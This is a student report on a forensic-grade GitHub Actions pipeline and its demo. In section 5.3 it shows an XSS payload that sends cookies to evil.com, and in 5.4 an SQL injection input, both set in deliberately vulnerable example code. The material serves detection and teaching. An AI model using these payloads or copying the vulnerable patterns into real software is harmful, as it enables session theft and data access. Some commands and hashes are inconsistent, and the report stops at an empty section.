





# Report: Best practices for secure DevOps in the context of cyber forensics

Name of report: Final_Project_Secure_DevOps_Forensics
Course: Computer Forensics and Incident Response
Performed by Nikita Niakhai, Salekh Mamadaliev, Adekanye Victor
Date submission: 16.05.2026
Video Demo: [https://drive.google.com/file/d/1fEL5DQpoknFKb3J4ETNYdIxfAHovJgl9/view?usp=sharing](https://drive.google.com/file/d/1fEL5DQpoknFKb3J4ETNYdIxfAHovJgl9/view?usp=sharing)
Github repository link: [https://github.com/NikitaNekhay/dev-sec-ops-and-forensics-git](https://github.com/NikitaNekhay/dev-sec-ops-and-forensics-git)

---

Notion link to the report: https://flash-chicken-3d8.notion.site/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a?source=copy_link

---

## Team work distribution

| Name | Role |
| --- | --- |
| Salekh Mamadaliev | Pipeline architecture & implementation |
| Nikita Niakhai | Stack proposition & Web application & artifact visualization |
| Adekanye Victor | Documentation, demonstration & forensic analysis |

---

## Table of contents

1. [Introduction](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#1-introduction)

    1.1 [Problem Statement](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#11-problem-statement)

    1.2 [Project Goals](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#12-project-goals)

    1.3 [Scope](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#13-scope)

    1.4 [Technology Stack](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#14-technology-stack)

2. [Background](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#2-background)

    2.1 [CI/CD Pipelines as an Attack Surface](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#21-cicd-pipelines-as-an-attack-surface)

    2.2 [Forensic Challenges in DevOps Environments](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#22-forensic-challenges-in-devops-environments)

    2.3 [Key Standards and Frameworks](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#23-key-standards-and-frameworks)

3. [System Architecture](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#3-system-architecture)

    3.1 [Pipeline Overview](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#31-pipeline-overview)

    3.2 [Security Design Principles](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#32-security-design-principles)

    3.3 [Repository Structure](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#33-repository-structure)

    3.4 [OIDC Signing Flow](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#34-oidc-signing-flow)

4. [Implementation](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#4-implementation)

    4.1 [Phase 1 — CodeQL Static Analysis](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#41-phase-1--codeql-static-analysis)

    4.2 [Phase 2 — Dependency Audit](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#42-phase-2--dependency-audit)

    4.3 [Phase 3 — Build & SBOM Generation](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#43-phase-3--build--sbom-generation)

    4.4 [Phase 4 — Artifact Signing (Sigstore / cosign)](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#44-phase-4--artifact-signing-sigstore--cosign)

    4.5 [Phase 5 — Build Provenance Attestation](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#45-phase-5--build-provenance-attestation)

    4.6 [Phase 6 — Forensic Audit Summary](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#46-phase-6--forensic-audit-summary)

    4.7 [ForensicPad Web Application](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#47-forensicpad-web-application)

5. [Forensic Demo & Analysis](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#5-forensic-demo--analysis)

    5.1 [Demonstration Setup](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#51-demonstration-setup)

    5.2 [Vulnerabilities Introduced](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#52-vulnerabilities-introduced)

    5.3 [XSS Example (CWE-79)](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#53-xss-example-cwe-79)

    5.4 [SQL Injection Example (CWE-89)](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#54-sql-injection-example-cwe-89)

    5.5 [Pipeline Response](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#55-pipeline-response)

    5.6 [Forensic Reconstruction Scenario](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#56-forensic-reconstruction-scenario)

6. [Conclusion](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#6-conclusion)
7. [References](https://www.notion.so/Report-Best-practices-for-secure-DevOps-in-the-context-of-cyber-forensics-2f58516574e180058af1cb38729c468a#7-references)

# 1. Introduction

## 1.1 Problem Statement

Modern software delivery pipelines are a critical yet often overlooked attack surface. As organizations adopt DevOps practices, the speed of deployment increases — but so does the risk of shipping vulnerable or tampered artifacts. When a security incident occurs, investigators frequently face the same question: *“How did this artifact get here, and can we trust it?”*

Traditional CI/CD pipelines provide little evidence to answer this question. Secrets are hardcoded, builds are non-reproducible, and there is no cryptographic proof linking a deployed artifact to its source code and build environment. This gap between DevOps speed and forensic auditability is the core problem this project addresses.

## 1.2 Project Goals

The primary goal of this project is to design and implement a **forensic-grade GitHub Actions CI/CD pipeline** that:

- Eliminates hardcoded credentials through OIDC federation
- Detects vulnerabilities in source code and dependencies automatically
- Produces cryptographically signed, verifiable artifacts at every build
- Maintains a complete, tamper-evident audit trail from commit to artifact
- Enables post-incident reconstruction of the full build provenance chain

## 1.3 Scope

The project covers the full pipeline lifecycle for a Next.js web application, including static analysis, dependency auditing, artifact signing, provenance generation, and forensic audit logging. The web application itself serves as both the subject of the pipeline and a visualization interface for the generated forensic artifacts.

## 1.4 Technology Stack

| Tool | Category | Role in Project |
| --- | --- | --- |
| **GitHub Actions** | CI/CD platform | Pipeline execution environment |
| **OIDC Federation** | Authentication | Keyless identity — no stored secrets |
| **CodeQL** | SAST | Static vulnerability analysis |
| **GitHub Secret Scanning** | Credential detection | Push protection against leaked secrets |
| **Dependabot** | Dependency management | Automated vulnerability tracking |
| **npm audit** | Dependency audit | CVE detection at build time |
| **Syft (anchore/sbom-action)** | SBOM generation | Software Bill of Materials (SPDX + CycloneDX) |
| **Sigstore / cosign** | Artifact signing | Keyless signing via Rekor transparency log |
| **SLSA Provenance** | Build attestation | in-toto provenance document |
| **Next.js** | Web application | Forensic artifact visualization interface |

---

# 2. Background

## 2.1 CI/CD Pipelines as an Attack Surface

Continuous Integration and Continuous Deployment pipelines automate the process of building, testing, and deploying software. While this automation improves development velocity, it also introduces significant security risks. The pipeline itself — the code that builds and ships software — becomes a high-value target for attackers.

Notable real-world supply chain attacks have demonstrated this risk. The SolarWinds attack (2020) involved a compromise of the build pipeline itself, resulting in malicious code being signed and distributed through legitimate channels. The event demonstrated that without cryptographic proof of build integrity, it is impossible to distinguish a legitimate artifact from a tampered one.

## 2.2 Forensic Challenges in DevOps Environments

When a security incident involves a CI/CD pipeline, forensic investigators face specific challenges:

**Attribution:** Who triggered the build? Was it a legitimate developer or an attacker using stolen credentials? Without immutable audit logs tied to cryptographic identities, attribution is difficult or impossible.

**Integrity verification:** Was the shipped artifact built from the claimed source code? Without artifact signing and provenance attestation, there is no way to verify that the deployed binary matches the reviewed source.

**Timeline reconstruction:** When was a vulnerability introduced? When did the team become aware of it? Without timestamped, tamper-evident records, reconstructing the incident timeline requires guesswork.

**Chain of custody:** In legal or compliance contexts, evidence must be traceable and verifiable. A pipeline that produces unsigned, unattested artifacts cannot support a legally defensible forensic investigation.

## 2.3 Key Standards and Frameworks

**SLSA (Supply-chain Levels for Software Artifacts)** is a security framework developed by Google and adopted by the Open Source Security Foundation (OpenSSF). It defines four levels of supply chain integrity, with Level 3 requiring that provenance is generated by a platform-controlled process that the build job itself cannot tamper with.

**in-toto** is a framework for securing software supply chains. It defines a specification for generating and verifying attestations — signed statements about steps in the software supply chain. The provenance documents generated in this project follow the in-toto Statement v0.1 format with SLSA predicate v0.2.

**Sigstore** is a set of free-to-use tools for code signing. Its keyless signing model uses short-lived certificates issued by the Fulcio Certificate Authority (CA) in exchange for an OIDC identity token. Signatures are recorded in Rekor, a public append-only transparency log. This means no private key needs to be stored — the signing identity is the CI/CD platform itself.

**SBOM (Software Bill of Materials)** is a formal, machine-readable inventory of the components in a software artifact. Two standard formats exist: SPDX (ISO/IEC 5962) and CycloneDX (OWASP). During a supply chain incident, the SBOM enables immediate triage: investigators can query whether a specific vulnerable package was present in a given build.

**OIDC (OpenID Connect)** federation allows GitHub Actions workflows to authenticate to external services without storing long-lived credentials. Each job receives a short-lived JWT token from GitHub’s identity provider, which can be exchanged for access tokens using a trust relationship — eliminating the need for `AWS_SECRET_ACCESS_KEY` or similar secrets stored in repository settings.

---

# 3. System Architecture

## 3.1 Pipeline Overview

The pipeline is implemented as a single GitHub Actions workflow file (`.github/workflows/ci.yml`) consisting of six sequential phases. The overall design follows a principle of **defense in depth**: each phase adds an independent layer of security evidence, so that even if one control fails, the remaining controls continue to generate forensic artifacts.



**Least privilege:** The global `permissions: {}` declaration denies all permissions by default. Each job explicitly grants only what it requires — for example, only the signing jobs receive `id-token: write`.

**OIDC federation:** No long-lived secrets are stored in the repository. The pipeline authenticates using short-lived OIDC tokens issued by GitHub’s identity provider, exchanged for temporary credentials at runtime.

**Separation of concerns:** Each phase is an independent job. Phases 4 and 5 run in parallel after the build, and Phase 6 runs with `if: always()` to ensure the audit record is always written regardless of upstream failures.

**Immutable artifact retention:** All forensic artifacts are retained for 90 days, aligning with typical incident response SLA windows. Artifacts cannot be modified after upload.

## 3.3 Repository Structure

```
dev-sec-ops-and-forensics-git/
├── .github/
│   ├── workflows/
│   │   ├── ci.yml              ← 6-phase forensic pipeline
│   │   └── codeql.yml          ← CodeQL configuration file
│   ├── dependabot.yml          ← automated dependency updates
│   └── codeql-config.yml       ← CodeQL query configuration
├── web-app/                    ← Next.js application
│   ├── src/
│   │   ├── lib/                ← Next.js app router
│   │        └── demo-vulnerabilities.js  ← intentionally vulnerable demo
│   │		└──...                  ← Other web application files
│   └── ...                     ← Other web application file
├── investigations/             ← Directory for case artifacts (used in web-app)
└── README.md
```

## 3.4 OIDC Signing Flow

```
GitHub Actions Job
       │
       │ 1. Request OIDC token
       ▼
GitHub Identity Provider
       │
       │ 2. Issue short-lived JWT
       │    (contains: repo, workflow, SHA, actor)
       ▼
Sigstore Fulcio CA
       │
       │ 3. Issue short-lived signing certificate
       │    bound to GitHub workflow identity
       ▼
cosign sign-blob
       │
       │ 4. Sign artifact, record in Rekor
       ▼
Rekor Transparency Log
       │
       └── Permanent, append-only entry
           verifiable by anyone, forever
```

---

# 4. Implementation

## 4.1 Phase 1 — CodeQL Static Analysis

CodeQL is GitHub’s semantic code analysis engine. Unlike pattern-based linters, CodeQL builds a queryable database from the source code and runs queries against it — enabling detection of complex vulnerability patterns that span multiple files and function calls.

**Configuration:** The pipeline initializes CodeQL with the `security-extended` query suite, which covers OWASP Top 10 vulnerability categories for JavaScript and TypeScript. The `security-and-quality` suite was evaluated but caused timeouts on GitHub’s free runners due to query volume.

**Output:** Results are uploaded as a SARIF (Static Analysis Results Interchange Format) file to GitHub’s Security tab, where they appear as Code Scanning alerts with severity ratings, affected line numbers, and remediation guidance. The SARIF file is also retained as a 90-day artifact for forensic analysis.

**Forensic value:** The SARIF report creates a permanent record of what vulnerabilities were detectable at each commit. During post-incident analysis, investigators can determine whether a vulnerability was present and flagged — or was introduced after the last scan.

## 4.2 Phase 2 — Dependency Audit

**npm audit** queries the npm advisory database against the project’s dependency tree. The pipeline runs with `--audit-level=high`, meaning it fails only on HIGH or CRITICAL severity CVEs. A full JSON report is generated regardless and retained as an artifact.

**Dependabot** is configured in `.github/dependabot.yml` to scan both npm packages and GitHub Actions weekly. It automatically opens pull requests for vulnerable dependencies, each PR creating a timestamped, actor-attributed record of known vulnerabilities.

**Findings:** The current codebase contains two moderate-severity vulnerabilities:
- `postcss < 8.5.10` — XSS via unescaped `</style>` closing tags (CVSS 6.1)
- `next` — depends on vulnerable postcss version

These did not fail the pipeline (moderate < high threshold) but are documented in the audit artifact.

**Forensic value:** The combination of npm audit JSON reports and Dependabot PR history creates a complete timeline answering: *“When did this vulnerability become known, and what was done about it?”*

## 4.3 Phase 3 — Build & SBOM Generation

The Next.js application is built using `npm ci` (which enforces exact versions from `package-lock.json`) followed by `npm run build`. The output is archived as a `.tar.gz` file and its SHA-256 hash is computed and passed to downstream phases.

Two SBOM formats are generated using Syft (via `anchore/sbom-action`):

- **SPDX JSON** (ISO/IEC 5962) — industry standard
- **CycloneDX JSON** (OWASP) — security-focused format

**Forensic metadata** is embedded into the build via environment variables:

```
NEXT_PUBLIC_BUILD_SHA    = git commit SHA
NEXT_PUBLIC_BUILD_REF    = branch name
NEXT_PUBLIC_BUILD_ACTOR  = GitHub username who triggered the build
NEXT_PUBLIC_BUILD_TIME   = commit timestamp
NEXT_PUBLIC_WORKFLOW_RUN_ID = Actions run ID
```

**Forensic value:** The SBOM answers *“What packages were in this specific build?”* — critical for supply chain incident triage. The embedded metadata links the deployed artifact to an exact git commit and pipeline run.

## 4.4 Phase 4 — Artifact Signing (Sigstore / cosign)



Figure - Cosign verification tool

Cosign v3 uses keyless signing: instead of a stored private key, it exchanges the GitHub Actions OIDC token for a short-lived certificate from Sigstore’s Fulcio CA. The signature and certificate are bundled together and recorded as an entry in Rekor — Sigstore’s public, append-only transparency log.

**Verification command:**

```bash
cosign verify-blob \
  --bundle artifact.bundle \
  --certificate-identity-regexp 'https://github.com/NikitaNekhay/dev-sec-ops-and-forensics-git' \
  --certificate-oidc-issuer 'https://token.actions.githubusercontent.com' \
  react-app-dist.tar.gz
```



FIgure - Verifying sigstore singing for artifacts

(Work was done in multiple GitHub repositories, that’s why on screenshot there’s different repository requested)

**Forensic value:** Any investigator — without access to the repository or pipeline — can verify that a given artifact was produced by the claimed workflow at the claimed time and has not been modified since. The Rekor entry is permanent and cannot be deleted.

## 4.5 Phase 5 — Build Provenance Attestation

The provenance document follows the **in-toto Statement v0.1** format with **SLSA provenance v0.2** predicate. It is generated in an isolated job (separate from the build job) and signed with cosign, producing a separate bundle recorded in Rekor.

**Provenance document contains:**

```json
{
  "_type": "https://in-toto.io/Statement/v0.1",
  "predicateType": "https://slsa.dev/provenance/v0.2",
  "subject": [{
    "name": "react-app-dist.tar.gz",
    "digest": { "sha256": "f7ca11842d3feb1c48fb784729856b23c53b493bd1023f464525a10639d4db1a" }
  }],
  "predicate": {
    "builder": { "id": "https://github.com/NikitaNekhay/dev-sec-ops-and-forensics-git/actions/runs/25940254132" },
    "buildType": "https://github.com/Attestations/GitHubActionsWorkflow@v1",
    "invocation": {
      "configSource": {
        "uri": "git+https://github.com/NikitaNekhay/dev-sec-ops-and-forensics-git",
        "digest": { "sha1": "9c7b8d0f3aa5c186c4406ea979d66985872f19b9" },
        "entryPoint": ".github/workflows/ci.yml"
      },
      "parameters": {
        "ref": "refs/heads/main",
        "actor": "NikitaNekhay",
        "run_id": "25940254132",
        "run_attempt": "1"
      }
    },
    "metadata": {
      "buildStartedOn": "2026-05-15T23:38:54+03:00",
      "completeness": {
        "parameters": true,
        "environment": false,
        "materials": false
      },
      "reproducible": false
    }
  }
}
```

**Forensic value:** The provenance document is the chain-of-custody record for the artifact. It answers: *“Who built this, from what code, using what pipeline, at what time?”*

## 4.6 Phase 6 — Forensic Audit Summary

Phase 6 runs with `if: always()` — it executes even if earlier phases fail, ensuring a complete forensic trail exists for every pipeline run, including failed ones.

It produces two outputs:

**forensic-audit-event.json** — a structured JSON record designed for SIEM ingestion or forensic dashboard consumption:

```json
{
  "schema_version": "1.0",
  "event_type": "ci_pipeline_run",
  "timestamp": "2026-05-15T20:41:07Z",
  "pipeline": {
    "workflow": "Secure CI/CD Pipeline — Forensic",
    "run_id": "25940254132",
    "run_number": "21",
    "run_attempt": "1"
  },
  "source": {
    "repository": "NikitaNekhay/dev-sec-ops-and-forensics-git",
    "ref": "refs/heads/main",
    "sha": "9c7b8d0f3aa5c186c4406ea979d66985872f19b9",
    "branch": "main",
    "base_sha": "496716a85b7fcf380dd1b466d112c740a7025c27"
  },
  "actor": {
    "github_actor": "NikitaNekhay",
    "triggering_actor": "NikitaNekhay",
    "event_name": "push"
  },
  "artifact": {
    "name": "react-app-dist.tar.gz",
    "sha256": "f7ca11842d3feb1c48fb784729856b23c53b493bd1023f464525a10639d4db1a"
  },
  "security_controls": {
    "phase_1_codeql": "success",
    "phase_2_dependency_audit": "success",
    "phase_3_sbom_generated": "spdx-json + cyclonedx-json",
    "phase_4_cosign_signed": "success",
    "phase_5_slsa_provenance": "level-3",
    "oidc_federation": "enabled",
    "hardcoded_secrets": "none",
    "secret_scanning": "enabled-in-repo-settings"
  },
  "retained_artifacts": [
    "npm-audit-report",
    "sbom-files",
    "react-app-dist",
    "cosign-bundle",
    "forensic-audit-event"
  ],
  "retention_policy_days": 90,
  "forensic_note": "All artifacts retained 90 days. Cosign bundle verifiable via Sigstore Rekor transparency log independently of this repository."
}
```

**GitHub Step Summary** — human-readable table visible in the Actions UI, showing all phase statuses, artifact hash, and the cosign verification command.

## 4.7 Web Application

The Next.js + React stack creates a forensic case management interface located in the web-app/ directory. While the CI/CD pipeline produces forensic artifacts such as SARIF reports, SBOMs, signed bundles, provenance attestations, and audit summaries, the web application provides a human-facing workspace for organizing this evidence into investigation cases. The application is designed as a single-user lab tool for forensic investigators. It stores all investigation data directly inside the GitHub repository under the investigations/ directory, which keeps the investigation record version-controlled and auditable.

This app allows not only store barely human understandable artifacts, but understand them and have structured view with AI and Notepad functionality.

**Main forensic functions include:**

- Creating investigation cases with structured metadata
- Writing and maintaining Markdown-based forensic reports
- Uploading evidence files such as logs, screenshots, JSON files, ZIP archives, scripts, PDFs, and CodeQL SARIF results
- Calculating SHA-256 hashes for uploaded evidence
- Preserving evidence metadata in evidence/index.json
- Tracking investigation timelines and manual work sessions
- Maintaining daily investigator notes
- Viewing Git commit history for each case
- Using an AI assistant to summarize reports, identify missing sections, and propose report improvements

**API:**

- Github History (commits)
- Pushing all changes (case management, uploading artifacts, changing [report.md](http://report.md), adding timeline analysis, counting hours for the report) for each case
- AI LLM (Openrouter API)
    - Advising on report creation (summary, grammar, writting)
    - Analysing forensics artifacts

**Each case follows a consistent repository structure:**

```bash
investigations/
  CASE-001-example-case/
    report.md
    metadata.json
    timeline.json
    time-sessions.json
    daily-notes.md
    evidence/
      index.json
      screenshots/
      logs/
      archives/
      documents/
      scripts/
```

**Key API endpoints used:**

```
GET /repos/{owner}/{repo}/actions/runs          — pipeline run history
GET /repos/{owner}/{repo}/actions/artifacts     — artifact list per run
GET /repos/{owner}/{repo}/code-scanning/alerts  — CodeQL findings
GET /repos/{owner}/{repo}/dependabot/alerts     — dependency vulnerabilities\
POST /ai                                        — AI endpoints
```

---

# 5. Forensic Demo & Analysis

## 5.1 Demonstration Setup

To demonstrate the forensic detection capabilities of the pipeline, a file containing six intentional vulnerabilities was added to the repository at `web-app/src/demo-vulnerabilities.js`. This file simulates common developer mistakes that represent real-world security risks.

## 5.2 Vulnerabilities Introduced

| # | Vulnerability | CWE | Detection Tool | Severity |
| --- | --- | --- | --- | --- |
| 1 | Cross-Site Scripting (XSS) via `innerHTML` | CWE-79 | CodeQL | High |
| 2 | SQL Injection via string concatenation | CWE-89 | CodeQL | Critical |
| 3 | Hardcoded credentials (passwords, API keys, AWS keys) | CWE-798 | CodeQL + Secret Scanning | Critical |
| 4 | Path Traversal via unsanitized filename | CWE-22 | CodeQL | High |
| 5 | Code Injection via `eval()` | CWE-95 | CodeQL | Critical |
| 6 | Insecure randomness (`Math.random()` for tokens) | CWE-338 | CodeQL | Medium |

## 5.3 XSS Example (CWE-79)

```bash
// VULNERABLE: user-controlled input written to innerHTML without sanitization
function renderUserProfile(userId) {
  const username = new URLSearchParams(window.location.search).get("user");
  document.getElementById("profile").innerHTML =
    "<h1>Welcome, " + username + "</h1>";
}
// Attacker payload: ?user=<script>document.location='https://evil.com/steal?c='+document.cookie</script>
```

## 5.4 SQL Injection Example (CWE-89)

```bash
// VULNERABLE: user input concatenated directly into SQL query
function getUserData(req, res) {
  const userId = req.query.id;
  const query = "SELECT * FROM users WHERE id = '" + userId + "'";
  // Attacker input: ' OR '1'='1' --
  // Resulting query: SELECT * FROM users WHERE id = '' OR '1'='1' --'
}
```

## 5.5 Pipeline Response

Upon committing the vulnerable file:

1. **CodeQL** (Phase 1) detected vulnerabilities and created alerts in `Security → Code scanning alerts`



Figure - CodeQL findings

1. **All forensic artifacts were generated normally** — the pipeline does not halt on code quality findings (by design), ensuring that even a build containing vulnerabilities produces a complete audit trail



Figure - Pipeline artifacts

## 5.6 Forensic Reconstruction Scenario

**Scenario:** A production incident is reported — suspicious data exfiltration detected from the deployed application.

**Step 1 — Identify the artifact**

```bash
# Download forensic-audit-event.json from the relevant pipeline run
# Check artifact SHA-256: ecab636b...
```

**Step 2 — Verify artifact integrity**

```bash
cosign verify-blob \
  --bundle artifact.bundle \
  --certificate-identity-regexp 'https://github.com/NikitaNekhay/dev-sec-ops-and-forensics-git' \
  --certificate-oidc-issuer 'https://token.actions.githubusercontent.com' \
  react-app-dist.tar.gz
# Expected output: Verified OK
```

**Step 3 — Check provenance**

```bash
cosign verify-blob \
  --bundle provenance.bundle \
  --certificate-identity-regexp 'https://github.com/NikitaNekhay/dev-sec-ops-and-forensics-gitt' \
  --certificate-oidc-issuer 'https://token.actions.githubusercontent.com' \
  react-app-dist.tar.gz
```

**Step 4 — Cross-reference SBOM**

```bash
# Query sbom.spdx.json for the vulnerable package:
cat sbom.spdx.json | jq '.packages[] | select(.name == "postcss")'
# Confirms postcss 8.4.x was present — vulnerable to XSS
```

**Step 5 — Review CodeQL alerts**

```bash
# GitHub API:
GET /repos/NikitaNekhay/dev-sec-ops-and-forensics-git/code-scanning/alerts
# Shows XSS vulnerability was flagged at commit time — team was aware
```

**Conclusion:** The artifact was not tampered with after signing (cosign verification passed). The vulnerability exploited in the incident was present in the source code and was detected by CodeQL before deployment. The SBOM confirms the vulnerable dependency was included. The forensic-audit-event.json provides the full attribution chain.

---

# 6. Results & Discussion

## 6.1 Generated Forensic Artifacts

